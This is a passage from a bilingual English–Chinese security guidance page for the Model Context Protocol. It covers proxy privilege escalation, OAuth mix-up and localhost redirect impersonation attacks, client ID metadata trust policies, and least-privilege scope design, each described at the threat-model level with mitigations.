在基于代理的 MCP 实现中，本地代理服务位于客户端与 MCP 服务器之间，通过 `stdio` 传输把服务器作为子进程拉起。这一架构与客户端漏洞结合时，会形成一条特权提权路径：

</template>
</BiRow>

<BiRow>
<template #en>

1. Attacker achieves XSS or other client-side code execution (e.g., through OAuth URL vulnerabilities)
2. Using the attack vector above, the malicious actor accesses the MCP proxy authentication token established between the client and the proxy from the client's environment
3. Malicious actor makes authenticated requests to the local MCP proxy service
4. Proxy spawns arbitrary commands via the `stdio` transport (believing they are legitimate MCP server commands)
5. Attacker achieves Remote Code Execution with user privileges

</template>
<template #zh>

1. 攻击者实现 XSS 或其他形式的客户端代码执行（例如借助 OAuth URL 漏洞）
2. 恶意行为者利用上述攻击向量，从客户端环境中获取客户端与代理之间已建立的 MCP 代理认证令牌
3. 恶意行为者向本地 MCP 代理服务发起经过认证的请求
4. 代理经由 `stdio` 传输拉起任意命令（误以为它们是合法的 MCP 服务器命令）
5. 攻击者以用户权限实现远程代码执行

</template>
</BiRow>

<BiRow>
<template #en>

#### Risks

</template>
<template #zh>

#### 风险

</template>
</BiRow>

<BiRow>
<template #en>

* **Privilege Escalation**. Web-based vulnerabilities (XSS) can escalate to arbitrary code execution on the host system through proxy command execution
* **Authentication Bypass**. Stolen proxy authentication tokens allow unauthorized access to stdio process spawning capabilities
* **System Compromise**. Attackers can execute any command that the MCP proxy process has privileges to run

</template>
<template #zh>

* **权限提升**。基于 Web 的漏洞（XSS）可经由代理的命令执行，升级为宿主系统上的任意代码执行
* **认证绕过**。被窃取的代理认证令牌让未经授权者得以利用 stdio 进程拉起能力
* **系统失陷**。攻击者可以执行 MCP 代理进程有权限运行的任何命令

</template>
</BiRow>

<BiRow>
<template #en>

#### Mitigation

</template>
<template #zh>

#### 缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

The primary defense is to prevent classes of vulnerabilities that enable this attack vector:

</template>
<template #zh>

首要防线是阻断使这一攻击向量成为可能的那几类漏洞：

</template>
</BiRow>

<BiRow>
<template #en>

* Implement the mitigations described in [OAuth Authorization URL Validation](#oauth-authorization-url-validation)
* Use Content Security Policy (CSP) to prevent JavaScript execution from untrusted sources
* Validate and sanitize all input from MCP servers before processing

</template>
<template #zh>

* 实施 [OAuth 授权 URL 校验](#oauth-authorization-url-validation)中描述的缓解措施
* 使用内容安全策略（CSP）阻止来自不可信来源的 JavaScript 执行
* 在处理前校验并净化所有来自 MCP 服务器的输入

</template>
</BiRow>

<BiRow>
<template #en>

Since XSS fundamentally compromises the client's security context, focus on limiting the damage:

</template>
<template #zh>

由于 XSS 从根本上攻陷的是客户端的安全上下文，重点应放在限制损害上：

</template>
</BiRow>

<BiRow>
<template #en>

**stdio Transport Restrictions**

</template>
<template #zh>

**stdio 传输限制**

</template>
</BiRow>

<BiRow>
<template #en>

MCP proxy services **SHOULD** implement additional security controls for `stdio` transport:

</template>
<template #zh>

MCP 代理服务**应当（SHOULD）**为 `stdio` 传输实现额外的安全控制：

</template>
</BiRow>

<BiRow>
<template #en>

* Implement sandboxing or containerization for spawned processes
* Restrict file system access for spawned MCP servers
* Log all `stdio` transport usage for security monitoring
* Require additional authorization for potentially dangerous commands

</template>
<template #zh>

* 对拉起的进程实施沙箱隔离或容器化
* 限制被拉起的 MCP 服务器的文件系统访问
* 记录所有 `stdio` 传输的使用，用于安全监控
* 对潜在危险的命令要求额外授权

</template>
</BiRow>

<BiRow>
<template #en>

**Client-Side Protections**

</template>
<template #zh>

**客户端防护**

</template>
</BiRow>

<BiRow>
<template #en>

MCP clients **SHOULD** implement defense-in-depth measures:

</template>
<template #zh>

MCP 客户端**应当（SHOULD）**实现纵深防御措施：

</template>
</BiRow>

<BiRow>
<template #en>

* Isolate proxy communication in a separate security context when possible
* Use principle of least privilege for proxy process permissions
* Implement process-level sandboxing for the proxy service itself
* Consider running the proxy in a container or restricted environment

</template>
<template #zh>

* 尽可能把与代理的通信隔离在单独的安全上下文中
* 对代理进程权限遵循最小权限原则
* 对代理服务本身实施进程级沙箱
* 考虑把代理运行在容器或受限环境中

</template>
</BiRow>

<BiRow>
<template #en>

### Mix-Up Attacks

</template>
<template #zh>

### Mix-Up 攻击

</template>
</BiRow>

<BiRow>
<template #en>

#### Attack Description

</template>
<template #zh>

#### 攻击描述

</template>
</BiRow>

<BiRow>
<template #en>

An MCP client typically interacts with many authorization servers
over its lifetime. An attacker that controls one of those
authorization servers may attempt to have the client send it an
authorization code or token issued by a different, honest
authorization server (a mix-up attack, described in
[RFC9207 Section 1](https://datatracker.ietf.org/doc/html/rfc9207#section-1)).

</template>
<template #zh>

MCP 客户端在其生命周期内通常会与多个授权服务器交互。控制了其中某个授权服务器的攻击者，可能会诱使客户端把由另一个诚实授权服务器签发的授权码或令牌发送给自己（即 mix-up 攻击，见 [RFC9207 第 1 节](https://datatracker.ietf.org/doc/html/rfc9207#section-1)）。

</template>
</BiRow>

<BiRow>
<template #en>

#### Mitigation

</template>
<template #zh>

#### 缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

[Authorization Response Validation](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization#authorization-response-validation)
mitigates this by binding the response to the authorization server
the client recorded before redirecting, so the authorization code
cannot be redeemed at an unintended token endpoint. PKCE alone does
not prevent this attack because the client transmits the
`code_verifier` to the attacker's token endpoint. Resource indicators
do not help when the attacker's authorization server is intercepting
requests before they hit the honest authorization server. This
mitigation depends on honest authorization servers emitting `iss`; it
provides no protection against an honest server that does not.

</template>
<template #zh>

[授权响应校验](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization#authorization-response-validation)通过把响应绑定到客户端重定向前记录的授权服务器来缓解这一问题，使授权码无法在非预期的令牌端点被兑换。仅靠 PKCE 无法阻止这种攻击，因为客户端会把 `code_verifier` 传输给攻击者的令牌端点。而当攻击者的授权服务器在请求到达诚实授权服务器之前就将其拦截时，资源指示器（resource indicator）也无济于事。这一缓解措施依赖诚实授权服务器签发 `iss`；对不签发 `iss` 的诚实服务器，它不提供保护。

</template>
</BiRow>

<BiRow>
<template #en>

### Localhost Redirect URI Impersonation

</template>
<template #zh>

### localhost 重定向 URI 冒充

</template>
</BiRow>

<BiRow>
<template #en>

Native and locally-running MCP clients commonly use `localhost`
redirect URIs. When clients identify themselves with
[Client ID Metadata Documents](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization/client-registration#client-id-metadata-documents),
the metadata document proves control of a domain, but it cannot prove
which local process is listening on a `localhost` redirect URI.

</template>
<template #zh>

原生应用与本地运行的 MCP 客户端普遍使用 `localhost` 重定向 URI。当客户端以[客户端 ID 元数据文档](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization/client-registration#client-id-metadata-documents)表明身份时，元数据文档可以证明对某个域名的控制权，却无法证明是哪个本地进程在监听 `localhost` 重定向 URI。

</template>
</BiRow>

<BiRow>
<template #en>

#### Attack Description

</template>
<template #zh>

#### 攻击描述

</template>
</BiRow>

<BiRow>
<template #en>

An attacker can claim to be any client by:

</template>
<template #zh>

攻击者可以冒充任意客户端，做法如下：

</template>
</BiRow>

<BiRow>
<template #en>

1. Providing the legitimate client's metadata URL as their `client_id`
2. Binding to any `localhost` port, and providing that address as
   the redirect\_uri
3. Receiving the authorization code via the redirect when the user
   approves

</template>
<template #zh>

1. 把合法客户端的元数据 URL 提供为自己的 client_id
2. 绑定到任意 `localhost` 端口，并把该地址提供为 redirect_uri
3. 待用户批准后，经由重定向收到授权码

</template>
</BiRow>

<BiRow>
<template #en>

The server will see the legitimate client's metadata document and the
user will see the legitimate client's name, making attack detection
difficult.

</template>
<template #zh>

服务器看到的是合法客户端的元数据文档，用户看到的是合法客户端的名称，因此攻击很难被察觉。

</template>
</BiRow>

<BiRow>
<template #en>

#### Mitigation

</template>
<template #zh>

#### 缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

See
[Localhost Redirect URI Risks](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization/security-considerations#localhost-redirect-uri-risks)
in the authorization specification for the countermeasures expected
of authorization servers, including displaying additional warnings for
`localhost`-only redirect URIs and clearly displaying the redirect URI
hostname during authorization.

</template>
<template #zh>

对授权服务器的预期应对措施，见授权规范中的 [localhost 重定向 URI 风险](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization/security-considerations#localhost-redirect-uri-risks)，包括：对仅使用 `localhost` 的重定向 URI 显示额外警告，以及在授权时清晰展示重定向 URI 的主机名。

</template>
</BiRow>

<BiRow>
<template #en>

### CIMD Trust Policies

</template>
<template #zh>

### CIMD 信任策略

</template>
</BiRow>

<BiRow>
<template #en>

Authorization servers that accept
[Client ID Metadata Documents](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization/client-registration#client-id-metadata-documents)
can apply domain-based trust policies to decide which URL-based
client IDs to accept:

</template>
<template #zh>

接受[客户端 ID 元数据文档](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization/client-registration#client-id-metadata-documents)的授权服务器，可以应用基于域名的信任策略来决定接受哪些基于 URL 的客户端 ID：

</template>
</BiRow>

<BiRow>
<template #en>

* Allowlists for trusted domains (for protected servers)
* Accept any HTTPS `client_id` (for open servers)
* Reputation checks for unknown domains
* Restrictions based on domain age or certificate validation
* Display the CIMD and other associated client hostnames prominently
  to prevent phishing

</template>
<template #zh>

* 可信域名的允许列表（适用于受保护的服务器）
* 接受任意 HTTPS `client_id`（适用于开放的服务器）
* 对未知域名做信誉检查
* 基于域名年龄或证书校验的限制
* 醒目展示 CIMD 及其他关联的客户端主机名，以防钓鱼

</template>
</BiRow>

<BiRow>
<template #en>

Servers maintain full control over their access policies. See
[Trust Policies](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization/security-considerations#trust-policies)
in the authorization specification, along with
[Section 6.4](https://www.ietf.org/archive/id/draft-ietf-oauth-client-id-metadata-document-00.html#section-6.4)
and
[Section 6.8](https://www.ietf.org/archive/id/draft-ietf-oauth-client-id-metadata-document-00.html#section-6.8)
of the Client ID Metadata Document specification, for more details.

</template>
<template #zh>

服务器对其访问策略拥有完全的控制权。更多细节见授权规范中的[信任策略](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization/security-considerations#trust-policies)，以及客户端 ID 元数据文档规范的[第 6.4 节](https://www.ietf.org/archive/id/draft-ietf-oauth-client-id-metadata-document-00.html#section-6.4)与[第 6.8 节](https://www.ietf.org/archive/id/draft-ietf-oauth-client-id-metadata-document-00.html#section-6.8)。

</template>
</BiRow>

<BiRow>
<template #en>

### Scope Minimization

</template>
<template #zh>

### 作用域最小化

</template>
</BiRow>

<BiRow>
<template #en>

Poor scope design increases token compromise impact, elevates user
friction, and obscures audit trails.

</template>
<template #zh>

糟糕的作用域（scope）设计会放大令牌失陷的影响、增加用户摩擦，并让审计线索变得模糊。

</template>
</BiRow>

<BiRow>
<template #en>

#### Attack Description

</template>
<template #zh>

#### 攻击描述

</template>
</BiRow>

<BiRow>
<template #en>

An attacker obtains (via log leakage, memory scraping, or local
interception) an access token carrying broad scopes (`files:*`, `db:*`,
`admin:*`) that were granted up front because the MCP server exposed
every scope in `scopes_supported` and the client requested them all.
The token enables lateral data access, privilege chaining, and difficult
revocation without re-consenting the entire surface.

</template>
<template #zh>

攻击者获得（经由日志泄漏、内存抓取或本地拦截）一个携带宽泛作用域的访问令牌（`files:*`、`db:*`、`admin:*`）。这些范围之所以被一次性预先授予，是因为 MCP 服务器在 `scopes_supported` 中暴露了全部范围，而客户端把它们全都请求了。凭借该令牌，攻击者可以横向访问数据、串联权限，而且不就整个授权面重新征得同意就难以撤销。

</template>
</BiRow>

<BiRow>
<template #en>

#### Risks

</template>
<template #zh>

#### 风险

</template>
</BiRow>

<BiRow>
<template #en>

* Expanded blast radius: stolen broad token enables unrelated
  tool/resource access
* Higher friction on revocation: revoking a max-privilege token disrupts
  all workflows
* Audit noise: single omnibus scope masks user intent per operation
* Privilege chaining: attacker can immediately invoke high-risk tools
  without further elevation prompts
* Consent abandonment: users decline dialogs listing excessive scopes
* Scope inflation blindness: lack of metrics makes over-broad requests
  normalised

</template>
<template #zh>

* 波及面扩大：失窃的宽泛令牌可用于访问毫不相干的工具/资源
* 撤销代价更高：撤销一个最大权限令牌会中断所有工作流
* 审计噪音：单一「大杂烩」式范围掩盖了每次操作各自的用户意图
* 权限串联：攻击者无需再经过提权确认，就能立即调用高风险工具
* 同意被放弃：用户会直接拒绝列出过多作用域的对话框
* 范围膨胀盲区：缺乏度量，过宽的请求逐渐成了常态

</template>
</BiRow>

<BiRow>
<template #en>

#### Mitigation

</template>
<template #zh>

#### 缓解措施

</template>
</BiRow>

<BiRow>
<template #en>

Implement a progressive, least-privilege scope model:

</template>
<template #zh>

实现渐进式、最小权限的范围模型：

</template>
</BiRow>

<BiRow>
<template #en>

* Minimal initial scope set (e.g., `mcp:tools-basic`) containing only
  low-risk discovery/read operations
* Incremental elevation via targeted `WWW-Authenticate` `scope="..."`
  challenges when privileged operations are first attempted
* Down-scoping tolerance: server should accept reduced scope tokens;
  auth server MAY issue a subset of requested scopes

</template>
<template #zh>

* 最小初始范围集（如 `mcp:tools-basic`），只包含低风险的发现/读操作
* 首次尝试特权操作时，通过有针对性的 `WWW-Authenticate` `scope="..."` 质询渐进提权
* 容忍范围缩减：服务器应接受范围缩减后的令牌；授权服务器**可以（MAY）**只签发所请求范围的子集

</template>
</BiRow>

<BiRow>
<template #en>

Server guidance:

</template>
<template #zh>

服务器侧指南：

</template>
</BiRow>

<BiRow>
<template #en>

* Emit precise scope challenges; avoid returning the full catalog
* Log elevation events (scope requested, granted subset) with
  correlation IDs

</template>
<template #zh>

* 发出精确的范围质询；避免返回完整目录
* 记录提权事件（请求的范围、授予的子集），并附上关联 ID

</template>
</BiRow>

<BiRow>
<template #en>

Servers have flexibility in determining which scopes to include:

</template>
<template #zh>

在决定包含哪些范围上，服务器有灵活空间：

</template>
</BiRow>

<BiRow>
<template #en>

* **Minimum approach**: Include only the scopes required for the
  specific operation that triggered the error.
* **Recommended approach**: Include the scopes required for the
  current operation along with related scopes that commonly work
  together, to reduce the number of step-up authorization rounds.
* **Extended approach**: Include the scopes required for the
  current operation, related scopes, and any other scopes the
  server anticipates the client may need in the near future.

</template>
<template #zh>

* **最小方案**：只包含触发错误的那次具体操作所需的范围。
* **推荐方案**：包含当前操作所需的范围，加上常与之搭配使用的相关范围，以减少升级授权的往返次数。
* **扩展方案**：包含当前操作所需的范围、相关范围，以及服务器预计客户端不久后会用到的其他范围。

</template>
</BiRow>

<BiRow>
<template #en>

The choice depends on the server's assessment of user experience impact and authorization friction.

</template>
<template #zh>

如何取舍，取决于服务器对用户体验影响与授权摩擦的评估。

</template>
</BiRow>

<BiRow>
<template #en>

Client guidance:

</template>
<template #zh>

客户端侧指南：

</template>
</BiRow>

<BiRow>
<template #en>

* Begin with only baseline scopes (or those specified by initial
  `WWW-Authenticate`)
* Cache recent failures to avoid repeated elevation loops for denied
  scopes

</template>
<template #zh>

* 起步只带基线范围（或初始 `WWW-Authenticate` 指定的范围）
* 缓存近期的失败记录，避免对已被拒绝的范围反复进入提权循环

</template>
</BiRow>

<BiRow>
<template #en>

When the initial `WWW-Authenticate` challenge carries no `scope`
parameter, the
[Scope Selection Strategy](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization#scope-selection-strategy)
directs clients to fall back to requesting all scopes listed in
`scopes_supported`. This approach accommodates the general-purpose
nature of MCP clients, which typically lack domain-specific knowledge
to make informed decisions about individual scope selection.
Requesting all available scopes allows the authorization server and
end-user to determine appropriate permissions during the consent
process, minimizing user friction while following the principle of
least privilege.

</template>
<template #zh>

当初始 `WWW-Authenticate` 质询未携带 `scope` 参数时，[范围选择策略](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization#scope-selection-strategy)指引客户端回退到请求 `scopes_supported` 中列出的全部范围。这种做法照顾到了 MCP 客户端的通用性——它们通常缺少领域特定知识，难以就单个范围做出明智决策。请求所有可用范围，可以让授权服务器和最终用户在同意过程中确定合适的权限，在遵循最小权限原则的同时，把用户摩擦降到最低。

</template>
</BiRow>

<BiRow>
<template #en>

> **注：**
> Scope accumulation across operations is a client-side responsibility. Clients
  **SHOULD** compute the union of previously requested scopes and newly
  challenged scopes when initiating re-authorization, as described in [Step-Up
  Authorization
  Flow](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization#step-up-authorization-flow).
  This allows servers to remain stateless with respect to client scope sets
  while ensuring clients do not lose previously granted permissions.

</template>
<template #zh>

> **注：**
> 跨操作累积范围是客户端的责任。发起重新授权时，客户端**应当（SHOULD）**把此前请求过的范围与新质询的范围取并集，如[升级授权流程](https://modelcontextprotocol.io/specification/2026-07-28/basic/authorization#step-up-authorization-flow)所述。这样服务器无需为各客户端的范围集合维护状态，同时确保客户端不会丢失先前授予的权限。

</template>
</BiRow>

<BiRow>
<template #en>

> **注：**
> **Hierarchical scopes**: Some authorization servers define scope hierarchies
  where a broader scope implies narrower ones (for example, an `admin` scope
  that subsumes `read`). When accumulating scopes, the client's union may
  contain semantically redundant entries. For example, a token previously
  granted a broad scope may be challenged with a narrower one it already
  implies. Clients need not deduplicate hierarchically; authorization servers
  typically normalize such redundancy during token issuance. Servers, for their
  part, must account for hierarchy when deciding whether a token is sufficient
  for an operation, but this does not affect the scopes they emit in a
  challenge.

</template>
<template #zh>

> **注：**
> **层级式范围**：部分授权服务器定义了范围层级，较宽的范围蕴含较窄的范围（例如 `admin` 范围涵盖 `read`）。累积范围时，客户端求出的并集中可能出现语义冗余的条目。例如，先前被授予宽范围的令牌，可能又被一个它本已蕴含的窄范围质询。客户端无需按层级去重；授权服务器通常会在签发令牌时归一化这类冗余。服务器侧则须在判断令牌是否足以覆盖某操作时考虑层级关系，但这并不影响它在质询中发出的范围。

</template>
</BiRow>

<BiRow>
<template #en>

#### Common Mistakes

</template>
<template #zh>

#### 常见错误

</template>
</BiRow>

<BiRow>
<template #en>

* Publishing all possible scopes in `scopes_supported`
* Using wildcard or omnibus scopes (`*`, `all`, `full-access`)
* Bundling unrelated privileges to preempt future prompts
* Returning entire scope catalog in every challenge
* Silent scope semantic changes without versioning
* Treating claimed scopes in token as sufficient without server-side
  authorization logic

</template>
<template #zh>

* 在 `scopes_supported` 中发布所有可能的范围
* 使用通配符或大杂烩式范围（`*`、`all`、`full-access`）
* 捆绑不相干的权限，以预先规避将来的弹窗
* 每次质询都返回整个范围目录
* 不做版本化就悄然更改范围语义
* 把令牌中声明的范围当作充分依据，而不做服务器侧的授权逻辑

</template>
</BiRow>

<BiRow>
<template #en>

Proper minimization constrains compromise impact, improves audit
clarity, and reduces consent churn.

</template>
<template #zh>

恰当的最小化能约束失陷的影响、提升审计清晰度，并减少同意流程的反复。

</template>
</BiRow>
